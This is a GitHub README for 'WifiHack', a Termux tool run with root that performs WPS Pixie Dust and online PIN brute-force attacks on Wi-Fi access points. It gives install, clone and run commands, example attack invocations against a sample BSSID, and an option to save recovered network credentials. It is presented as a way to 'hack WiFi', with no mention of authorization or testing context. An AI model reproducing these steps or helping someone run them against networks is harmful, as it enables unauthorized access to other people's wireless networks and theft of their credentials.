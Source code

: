 
### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://i.ibb.co/ygb9X0K/Screenshot-2023-04-13-12-18-19-365-com-termux.jpg"></p>

## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
**Getting WifiHack**
 ```
 git clone --depth 1 https://github.com/BINOD-XD/WifiHack
 ```
### Running
 ```
 sudo python binod.py -i wlan0 -K
 ```
### One line Command
 ```
 sudo python WifiHack/binod.py -i wlan0 -K
 ```

# Usage
```
 binod.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 binod.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 binod.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 binod.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 binod.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Thanks
* Reyad X Shipu

* Thanks For Using This Tool 😘😍
